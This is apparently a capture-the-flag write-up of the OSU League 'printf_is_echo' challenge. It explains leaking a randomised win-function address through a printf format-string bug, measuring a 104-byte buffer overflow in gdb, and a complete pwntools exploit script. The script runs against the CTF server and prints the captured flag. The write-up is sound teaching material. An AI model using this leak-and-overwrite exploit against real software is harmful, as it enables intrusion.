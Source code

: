 ```yaml
---
title: "OSU League 2020/2021 - printf_is_echo Writeup"
date: 2020-11-04
draft: false
description: ""
tags: ["ctf"]
---
```


Oh boy. We got by the title what looks to be some sort of challenge involving printf.  Let's run the binary and take a look.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
I give up
```

Uh oh, so ASLR is enabled.  This means we don't know what the address of the win function will be since it changes every time.  If only there was a way to leak addresses from the stack, we might be able to get something.  Well, maybe we can.  

If the `printf` is used in an insecure way, directly passing user controled variables as arguments to the funtion, then we can make really bad things happen.

For example.  What would happen if we have a printf function like this:
`printf(userinput);`
and we passed in `%p`?

Well, it will treat the `%p` as an argument and print the pointer data on the stack.  Let's try it out with the program.

```
%p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p, %p
0x7ffdc72101a0, 0x7fb27237f8d0, 0xf, (nil), 0x7fb2725934c0, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, 0x202c7025202c7025, (nil), 0x5646bc24d79a, 0x5646bc24d690, 0x7ffdc7210210,
I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
```

Well sweet, looks like we got some leaked addresses.  Not only that, but there is an address in the 16th spot that ends in `0x79a`. That's our win function!!

We can make this a bit cleaner by just inputing `%16$p`.  Let's verify this works and we get the right address.

```
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
%16$p
0x557959a5079a

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
```

Awesome.  Next step now that we have the win function is to try to get our program to return to it. This will probably be accomplised via a buffer overflow attack on the second input option. And after messing around a bit, I was able to find that the buffer we had was going to be 104 bytes before we started overwriting the instruction pointer:

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/printf_is_echo
did you know the unix tool echo can be implemented with two lines of C? I'll echo some bytes, try it!
boop
boop

I used ASLR (with PIE), so the address of the win function is randomized!
I'll give you the last three hex digits of the address as a hint: 0x79a
Type "I give up" to acknowledge that this binary is unhackable
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0xf
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x7fffffffde80 ('A' <repeats 96 times>, "BBBBBBBB\n")
RDI: 0x7fffffffde81 ('A' <repeats 95 times>, "BBBBBBBB\n")
RBP: 0x4242424242424242 ('BBBBBBBB')
```

So, we have a way of getting the address of win(), we know our padding size. We can now build an exploit!

```python
from pwn import *
import os, sys
#io = process('./printf_is_echo')
io = remote('ctf.ropcity.com', 31338)

context(arch = "amd64")

io.recvuntil("try it!\n")

printf = "%16$p"

io.sendline(printf)

win = int(io.recvline(), 16)
log.info(win)

padding = b'A'*104
io.recvuntil('unhackable')
payload = padding + p64(win)

io.sendline(payload)
io.interactive()
```

And after running it we get the flag!

```
[+] Opening connection to ctf.ropcity.com on port 31338: Done
[*] 94681416755098
[*] Switching to interactive mode

osu{F0rMa7_$tRing_1s_FUN}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03
[*] Got EOF while reading in interactive
```
Nice! That was a fun challenged and learned a lot about how format string vulns work!